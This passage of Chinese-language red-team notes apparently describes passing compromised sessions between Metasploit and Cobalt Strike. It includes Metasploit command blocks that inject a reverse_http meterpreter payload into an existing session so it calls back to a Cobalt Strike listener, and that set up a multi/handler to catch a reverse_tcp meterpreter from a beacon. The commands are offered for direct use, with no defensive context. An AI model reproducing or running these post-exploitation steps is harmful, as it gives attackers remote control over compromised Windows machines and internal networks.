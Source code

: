     - ![image-20220924114450272](cs.assets/image-20220924114450272.png)

- 但是这样会导致的⼀个后果就是，只要第⼀个被控主机掉线，通过该主机中继打下的内⽹其他主机也都

## cs/msf/empire session传递

### msf -》 cs

- 只有meterpreter类型的session才能派⽣给CS

- ⾸先在CobaltStrike上设置一个listener

- ```
    use exploit/windows/local/payload_inject
    set payload windows/meterpreter/reverse_http 和cs监听器设置的要一样 可以使用不同协议
    set DisablePayloadHandler true #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
    set lhost xxxx #cobaltstrike监听的ip
    set lport 14444 #cobaltstrike监听的端口
    set session 1 #这里是获得的session的id
    exploit
    ```

### cs-》msf

- cs要有beacon shell

- 在msf上的操作

    - ```
        use exploit/multi/handler
        set payload windows/meterpreter/reverse_tcp
        set lhost 0.0.0.0
        set lport 44444
        exploit -j
        ```
